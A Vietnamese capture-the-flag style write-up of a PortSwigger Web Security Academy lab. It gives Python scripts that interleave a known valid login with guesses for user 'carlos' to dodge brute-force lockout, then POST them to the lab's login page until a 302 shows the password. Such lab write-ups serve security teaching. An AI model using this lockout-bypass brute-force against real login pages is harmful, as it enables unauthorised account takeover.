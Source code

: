 ![image](https://hackmd.io/_uploads/Sygrk5l9a.png)

Như vậy, chúng ta sẽ thực hiện tấn công brute force tương tự các labs trước. Lưu ý rằng khi đăng nhập hợp lệ thì status trả về là 302 (Tìm kiếm status trả về 302 của các request có username là carlos).

![image](https://hackmd.io/_uploads/BkYqeqg9T.png)

chúng ta được 1 tài khoản carlos có response 302

mình đã viết mã khai thác cho bài này

- với tạo file tài khoản mình sẽ tạo cho khi đăng nhập 1 lần trong list password sẽ đăng nhập tài khoản đúng `wiener:peter`

```python=
usrname = open('./username.txt', 'r')
new_usrname = open('new_username.txt', 'w')
for word in usrname:
    new_usrname.write('carlos\n')
    new_usrname.write('wiener\n')

passwds = open('./password.txt', 'r')
new_passwds = open('new_password.txt', 'w')
for word in passwds:
    new_passwds.write(word)
    new_passwds.write('peter\n')
```

- mã khai thác

```python=
import requests
import time
url = 'https://0a44004c044170bb8161307e00f2001a.web-security-academy.net/login'
file_username = open('./new_username.txt','r')
username = file_username.readline().strip()

file_password = open('./new_password.txt','r')
password = file_password.readline().strip()

for i in range(101):
    response = requests.post(url,data={'username': username, 'password': password}, allow_redirects= False,)
    if(username != "wiener" and response.status_code == 302 ):
        print("Mật khẩu của carlos là: " + password)
        break
    password = file_password.readline().strip()
    username = file_username.readline().strip()
```

![image](https://hackmd.io/_uploads/SyRU0tgcT.png)

mình nhận được mật khẩu là ==football==
mình đăng nhập tài khoản ==carlos:football== và giải được lab này
